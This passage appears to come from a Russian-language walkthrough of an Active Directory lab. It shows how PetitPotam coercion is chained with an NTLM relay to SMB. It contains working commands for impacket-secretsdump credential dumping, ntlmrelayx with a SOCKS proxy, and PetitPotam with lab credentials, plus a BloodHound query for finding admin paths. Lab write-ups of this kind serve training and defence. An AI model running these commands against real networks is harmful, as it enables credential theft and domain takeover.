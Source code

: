 ![](/images/coerce/Pasted%20image%2020250106120659.png)

```
impacket-secretsdump -k -no-pass Administrator@BRAAVOS
```

![](/images/coerce/Pasted%20image%2020250106120938.png)

#### Атака NTLM Relay на SMB

Бывает такое, что учетная запись компьютера является локальным администратором на другом компьютере. В этом случае PetitPotam можно сочетать с атакой NTLM Relay на SMB — отсутствие подписи на SMB встречается довольно часто.

```
MATCH p=(m:Computer)-[r:AdminTo]->(n:Computer) RETURN p
```

![](/images/coerce/Pasted%20image%2020250107010256.png)

```
cat /etc/proxychains4.conf
socks4 127.0.0.1 1080

impacket-ntlmrelayx -t 192.168.56.12 -socks
python /home/kali/PetitPotam/PetitPotam.py -u 'khal.drogo' -p 'horse' -d essos.local 192.168.56.200 192.168.56.23
proxychains impacket-secretsdump -no-pass 'essos.local'/'braavos$'@'192.168.56.12'
```
